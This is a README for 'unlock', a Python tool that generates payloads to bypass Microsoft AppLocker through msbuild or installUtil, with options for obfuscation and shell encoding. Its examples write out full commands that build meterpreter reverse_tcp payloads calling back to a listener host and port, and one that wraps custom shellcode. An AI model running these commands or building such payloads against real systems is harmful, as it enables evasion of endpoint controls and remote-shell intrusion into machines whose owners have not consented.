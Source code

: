 # unlock
Microsoft Applocker evasion tool

Unlock aims to be an easy tool for generating payloads which can bypass MS applocker restriction.
The code is heavily based on subtee work.

## Usage

unlock.py [-h] [--output FILENAME] [--framework FWV] [--payload PAYLOAD] [--lhost LHOST] [--lport LPORT]  [--method METHOD] [--enaobf] [--encshell ENCSHELL] [--custom CUSTOM] [--x64]  

## Arguments:
--output FILENAME   Output file name without extension  
--framework FWV      Framework NET version  
--payload PAYLOAD    Payload in MSF syntax  
--lhost LHOST        Local host for reverse shell  
--lport LPORT        Local port for reverse shell  
--method METHOD      Evasion method: msbuild or installUtil  
--enaobf             Enable CS code obfuscation  
--encshell ENCSHELL  Encode shell with: *date* or hostname  
--custom CUSTOM      Custom binary payload (don't use with --payload/--lhost/--lport  
--x64                set if your custom payload is x64  

## Examples
- python unlock.py --framework 4.0 --payload windows/x64/meterpreter/reverse_tcp --lhost 192.168.0.1 --lport 4444 --method installUtil  
- python unlock.py --framework 4.0 --payload windows/meterpreter/reverse_tcp --lhost 192.168.0.1 --lport 4444 --method msbuild  
- python unlock.py --framework 4.0 --custom shellcode.bin --x64  
